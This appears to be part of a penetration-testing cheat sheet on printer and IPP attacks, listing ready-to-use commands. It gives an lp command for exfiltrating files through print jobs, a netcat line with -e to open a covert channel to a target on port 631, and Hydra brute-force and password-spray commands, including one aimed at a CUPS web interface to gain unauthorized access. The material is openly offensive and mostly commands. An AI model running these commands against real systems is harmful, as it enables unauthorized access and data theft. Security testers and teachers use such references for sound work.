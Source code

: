 ### Data Exfiltration

#### Exfiltrating Data via Print Jobs

*   **Tool:** \[\[LP]]

    ```bash
    lp -d <printer_name> <file_to_exfiltrate>
    ```
* **Description:** Covertly exfiltrate data by embedding it in print jobs sent to remote or compromised printers.

#### Covert Channels via IPP

*   **Tool:** \[\[NetCat]]

    ```bash
    nc <target_ip> 631 -e lp -d <printer_name>
    ```
* **Description:** Establish a covert communication channel using IPP as a carrier for exfiltrated data.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra <protocol>://<target_ip> -s <target_port> -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra <protocol>://<target_ip> -s <target_port> -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

#### Brute force IPP Web Interface

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra -l <username> -P <password_list> <target_ip> http-post-form "/printers:username=^USER^&password=^PASS^:F=failed" -V
    ```
* **Description:** Brute-force the IPP management interface (e.g., CUPS) to gain unauthorized access.
